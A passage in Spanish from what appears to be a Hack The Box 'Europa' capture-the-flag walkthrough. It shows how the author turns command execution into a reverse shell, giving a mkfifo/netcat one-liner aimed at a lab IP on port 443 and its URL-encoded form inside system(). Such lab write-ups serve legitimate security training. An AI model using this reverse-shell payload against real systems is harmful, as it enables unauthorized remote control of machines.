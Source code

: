 ![""](/assets/images/htb-europa/europa_rce.png)

Vemos que tenemos ejecución de comando a nivel de sistema, ahora tenemos que entablarnos una reverse shell para ganar acceso al sistema. Ocupamos nuestro sitio de confianza [pentestmonkey.net](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet); pero hay que recordar que debemos url  encodear el comando que para este caso se utilizó:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f
```

Por lo que al url encodearlo quedaría de la siguiente manera:

```bash
system('rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.8+443+>/tmp/f')
```
